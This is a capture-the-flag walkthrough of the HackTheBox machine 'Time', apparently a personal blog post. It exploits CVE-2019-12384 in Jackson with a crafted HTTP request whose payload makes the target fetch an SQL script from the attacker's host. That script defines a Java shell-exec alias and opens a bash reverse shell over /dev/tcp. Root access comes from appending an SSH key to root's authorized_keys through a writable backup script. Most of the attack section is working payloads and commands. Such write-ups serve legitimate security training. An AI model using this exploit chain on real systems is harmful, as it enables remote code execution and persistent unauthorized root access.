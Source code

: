 --- title: Time HackTheBox
published: true
tags: htb CVE-2019-12384 jackson fasterxml json sql
---

# Recon

`nmap -sC -sV 10.10.10.214`

```
Nmap scan report for 10.10.10.214
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

> Note: A open port 80 is always suspicious and should be inspect


Playing around with the Website you can recognize an error with the validate(beta) funcionality. Googleing this error you can find that jackson/fasterxml is used.
CVE-2019-12384 is the one to look for 

# User
## Exploiting

I intercepted the reqest to the website with Burp Suite and according to this [github](https://github.com/jas502n/CVE-2019-12384) put following as request:

> look at the json in the data! Explained [here](http://www.h2database.com/html/features.html#execute_sql_on_connection)

```
POST / HTTP/1.1
Host: 10.10.10.214
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 184
Origin: http://10.10.10.214
DNT: 1
Connection: close
Referer: http://10.10.10.214/
Upgrade-Insecure-Requests: 1

mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",%20{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT%3d3;INIT%3dRUNSCRIPT%20FROM%20'http://10.10.14.25:8000/inject.sql'"}]
```

Furthermore I created a `inject.sql` with this content:

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInpu
tStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.14.25/4444 0>&1 &')
```

and provided this sql with a webservice started with 

```
python3 -m http.server
```

Simultaneously I started a listener with: 
 
```
nc -lvnp 4444
```

Now I sended the request in BurpSuite and got the reverse shell where I started the listener before

# Root
`/usr/bin/timer_backup.sh` is owned by root and writeable.

Upload the pubkey.
```
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```
SSH into the box with root
```
ssh -i ~/.ssh/id_rsa root@10.10.10.214
```
